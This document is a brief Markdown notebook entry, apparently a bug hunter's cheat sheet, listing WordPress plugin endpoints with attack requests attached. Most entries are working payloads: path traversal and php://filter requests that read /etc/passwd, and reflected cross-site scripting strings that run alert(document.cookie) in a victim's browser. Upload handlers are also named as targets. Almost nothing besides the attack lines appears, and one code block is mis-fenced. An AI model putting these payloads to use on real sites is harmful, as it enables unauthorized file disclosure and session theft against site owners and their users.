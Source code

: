 ```yaml
---
created: 2024-11-18T21:31
updated: 2025-01-16T05:47
---
```

# Wordpress Endpoints to look
Wordpress Endpoints to look -

check this if you have these plugin. 


```
/wp-content/plugins/./simple-image-manipulator/controller/download.php?filepath=/etc/passwd
```

```
/wp-content/plugins/activehelper-livehelp/server/offline.php?MESSAGE=MESSAGE%3C%2Ftextarea%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&DOMAINID=DOMAINID&COMPLETE=COMPLETE&TITLE=TITLE&URL=URL&COMPANY=COMPANY&SERVER=SERVER&PHONE=PHONE&SECURITY=SECURITY&BCC=BCC&EMAIL=EMAIL%22%3E%3Cscript%3Ealert%28document.cookie%29%3C/script%3E&NAME=NAME%22%3E%3Cscript%3Ealert%28document.cookie%29%3C/script%3E&
```

```
/wp-content/plugins/amministrazione-aperta/wpgov/dispatcher.php?open=../../../../../../../../../../etc/passwd
```

```
/wp-content/plugins/anti-plagiarism/js.php?m=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
```

```
/wp-content/plugins/buddypress-component-stats/lib/dompdf/dompdf.php?input_file=php://filter/resource=/etc/passwd
```

```
/wp-content/plugins/dzs-videogallery/admin/upload.php
```

```
/wp-content/plugins/e-search/tmpl/title_az.php?
```

```title_az=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
/wp-content/plugins/fancy-product-designer/inc/custom-image-handler.php
```

```
/wp-content/plugins/hd-webplayer/playlist.php
```

```
/wp-content/plugins/localize-my-post/ajax/include.php?file=../../../../../../../../../../etc/passwd
```
